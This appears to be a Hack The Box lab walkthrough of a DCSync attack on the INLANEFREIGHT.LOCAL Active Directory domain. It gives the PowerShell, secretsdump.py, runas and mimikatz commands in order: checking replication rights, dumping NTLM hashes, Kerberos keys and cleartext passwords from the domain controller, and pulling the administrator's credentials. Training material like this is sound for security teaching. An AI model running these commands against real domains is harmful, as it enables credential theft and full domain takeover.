 #### Using Get-ObjectAcl to Check adunn's Replication Rights
```powershell-session
PS C:\htb> $sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"
PS C:\htb> Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
```

#### Extracting NTLM Hashes and Kerberos Keys Using secretsdump.py
```shell-session
Tachipy@htb[/htb]$ secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 
```
#### Listing Hashes, Kerberos Keys, and Cleartext Passwords
```shell-session
Tachipy@htb[/htb]$ ls inlanefreight_hashes*
```
#### Enumerating Further using Get-ADUser

  Enumerating Further using Get-ADUser

```powershell-session
PS C:\htb> Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl
```
#### Checking for Reversible Encryption Option using Get-DomainUser
```powershell-session
PS C:\htb> Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol
```
#### Displaying the Decrypted Password
```shell-session
Tachipy@htb[/htb]$ cat inlanefreight_hashes.ntds.cleartext 
```
#### Using runas.exe

  Using runas.exe

```cmd-session
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>runas /netonly /user:INLANEFREIGHT\adunn powershell
Enter the password for INLANEFREIGHT\adunn:
Attempting to start powershell as user "INLANEFREIGHT\adunn" ...
```
#### Performing the Attack with Mimikatz

  Performing the Attack with Mimikatz

```powershell-session
PS C:\htb> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
```